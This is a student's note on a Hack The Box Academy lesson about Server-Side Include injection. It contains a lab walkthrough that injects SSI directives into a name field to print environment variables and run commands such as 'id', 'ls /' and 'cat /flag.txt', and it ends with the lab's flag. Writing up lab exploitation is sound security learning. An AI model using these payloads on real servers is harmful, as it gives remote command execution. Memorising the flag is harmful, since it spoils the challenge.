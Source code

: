 ```yaml
---
sticker: lucide//server-off
---
```

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`



   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![[Pasted image 20250212142109.png]]

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![[Pasted image 20250212142217.png]]

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![[Pasted image 20250212142245.png]]

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![[Pasted image 20250212142315.png]]

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
